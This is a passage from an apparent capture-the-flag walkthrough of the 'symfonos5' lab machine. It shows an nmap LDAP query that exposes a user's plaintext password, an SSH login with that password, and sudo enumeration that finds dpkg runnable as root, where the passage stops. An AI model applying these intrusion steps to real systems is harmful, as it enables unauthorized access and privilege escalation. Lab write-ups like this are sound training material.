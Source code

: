 ```
|         uid: zeus
|         cn: zeus
|         sn: 3
|         objectClass: top
|         objectClass: posixAccount
|         objectClass: inetOrgPerson
|         loginShell: /bin/bash
|         homeDirectory: /home/zeus
|         uidNumber: 14583102
|         gidNumber: 14564100
|         userPassword: cetkKf4wCuHC9FET
|         mail: zeus@symfonos.local
|_        gecos: Zeus User
MAC Address: 00:0C:29:F8:30:27 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 13.62 seconds
```

nmap ldap-search scrip helps us discover another username and password.

#### SSH

let's try to use this to log in with SSH.

```
lifesfun:/var/www/html# ssh zeus@192.168.211.150
zeus@192.168.211.150's password: 
Linux symfonos5 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```

Privilege Escalation
--------------------

#### Enumeration

```
zeus@symfonos5:~$ sudo -l
Matching Defaults entries for zeus on symfonos5:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zeus may run the following commands on symfonos5:
    (root) NOPASSWD: /usr/bin/dpkg
```

Looks like we can run dpkg as root.
